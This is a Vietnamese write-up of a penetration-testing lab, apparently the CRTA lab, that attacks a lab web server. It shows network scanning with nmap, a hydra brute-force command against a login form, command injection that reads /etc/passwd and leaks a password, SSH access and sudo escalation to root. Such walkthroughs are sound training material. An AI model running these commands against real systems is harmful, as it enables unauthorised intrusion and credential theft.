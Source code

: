 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. 192.168.80.1 chỉ mở ra trang của pfsense. Quét tiếp vào IP 192.168.80.10:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[CRTA_img1.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
Not working. Xin lỗi vì phải xem qua wu một chút =((
Có vẻ ta cần tận dụng chức năng đăng ký và đăng nhập của website.
Ta sẽ đăng ký một cred đơn giản là 123:123 ; ta sẽ truy cập được dashboard:
![[CRTA_img2.png]]
Có vẻ có một vài chức năng liên quan đến search, tôi nghĩ tôi sẽ tìm xem có bất kỳ lỗi SQL nào hay không, hoặc có thể là command injection.
Oke, ta có thể tìm email qua this one:
![[Pasted image 20250903195402.png]]
Một điều thú vị là nếu ta dùng Burp Suite hoặc CAIDO để xem respond website thì:
![[Pasted image 20250903195509.png]]
![[Pasted image 20250903201205.png]]
Gửi nó đến repeater và thử với lệnh "ls". Ta thấy respond trả về một danh sách các file. Thử truy cập chúng nào.
Có vẻ không có gì, thử dump vào /etc/passwd?![[Pasted image 20250903201451.png]]
Oh shiet, ta có thể tìm được privsec:
```Bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```
Thử truy cập ssh nhỉ:
```Bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh privilege@$target 
The authenticity of host '192.168.80.10 (192.168.80.10)' can't be established.
ED25519 key fingerprint is SHA256:RHpGTqvkXkAP6/HA3vpHP8gkrtApbfyYYjteCh3N/TE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.80.10' (ED25519) to the list of known hosts.
privilege@192.168.80.10's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

273 updates can be applied immediately.
273 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Wed Sep  3 18:02:08 2025 from 10.10.200.80
privilege@ubuntu-virtual-machine:~$
```
Nice. Check sơ qua thì có một thứ rất đặc biệt:
```Bash
sudo -l
```
Ta có quyền của sudo, nên chỉ cần khai thác vào:
```Bash
privilege@ubuntu-virtual-machine:~$ sudo /bin/bash
root@ubuntu-virtual-machine:/home/privilege#
```
